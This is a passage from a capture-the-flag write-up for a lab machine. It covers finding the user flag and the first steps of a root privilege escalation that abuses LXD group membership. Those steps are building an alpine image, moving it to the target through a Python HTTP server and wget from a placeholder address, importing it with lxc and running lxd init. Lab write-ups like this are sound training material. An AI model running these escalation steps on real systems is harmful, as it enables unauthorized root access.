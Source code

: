 ### [ Submit user flag ]

The **user flag** can be found in the home directory of mike:

![screenshot11](../assets/images/included/screenshot11.png)

---

### [ Submit root flag ]

I found an extremely useful [article](https://steflan-security.com/linux-privilege-escalation-exploiting-the-lxc-lxd-groups/) on how to exploit **lxd**.

*(Refer to the article for more detailed steps on how to carry out the exploit)*

Essentially, what we are trying to do is to run a privileged **alpine** container using **LXD** and **LXC** on the target machine. This grants us access to a root shell. From there, we mount the root directory on the actual machine to a directory on the container so that we can access files outside of the container while we're in the container as root.

**Steps:**

First, we need to build an image of alpine specifically for LXC/LXD containers on our local machine. We can do so using this Github repo:

```
git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder/
sudo ./build-alpine
```

This will generate a **.tar.gz** archive which is our alpine image.

Next, we transfer this alpine image over to the target machine. We can do so with a simply Python HTTP web server:

```
#Setup HTTP server to host the image
sudo python -m SimpleHTTPServer 80
#Download the image remotely using Wget
wget http://X.X.X.X/alpine-vX.XX-1686-XXXXXXXX_XXXX.tar.gz
```

Once the transfer is done, we import the transferred image using `lxc` on the target machine:

```
lxc image import ./alpine.tar.gz --alias myimage 
```

Next, before actually using the image, we need to initialize LXD first and configure it's storage pool. For this configuration, just follow through the prompts and use the default settings:

```
lxd init
```
